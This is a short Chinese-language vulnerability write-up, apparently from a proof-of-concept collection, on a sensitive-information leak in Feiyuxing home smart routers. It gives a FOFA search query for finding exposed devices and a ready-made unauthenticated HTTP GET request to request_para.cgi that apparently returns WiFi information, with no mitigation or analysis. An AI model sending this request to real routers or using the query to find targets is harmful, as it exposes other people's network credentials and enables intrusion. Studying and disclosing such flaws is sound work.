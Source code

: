 # 飞鱼星家用智能路由存在敏感信息泄露漏洞

# 一、漏洞详情
飞鱼星家用智能路由存在敏感信息泄露漏洞

# 二、影响版本
+ 飞鱼星家用智能路由

# 三、资产测绘
+ fofa`title="飞鱼星家用智能路由"`
+ <font style="color:rgb(51, 51, 51);">特征</font>

![1710903993282-74c0565e-7ea8-4511-909f-4be0e632c2a7.png](./img/Ak2FNPPxjNY5naA1/1710903993282-74c0565e-7ea8-4511-909f-4be0e632c2a7-503451.png)

# 四、漏洞复现
```http
GET /request_para.cgi?parameter=wifi_info HTTP/1.1
Host: 
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
```

![1719500556398-d9e3207a-fdb4-4fbb-8e58-ad526533c975.png](./img/Ak2FNPPxjNY5naA1/1719500556398-d9e3207a-fdb4-4fbb-8e58-ad526533c975-527172.png)



> 更新: 2024-09-03 14:56:23  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xagia0vo5d52b945>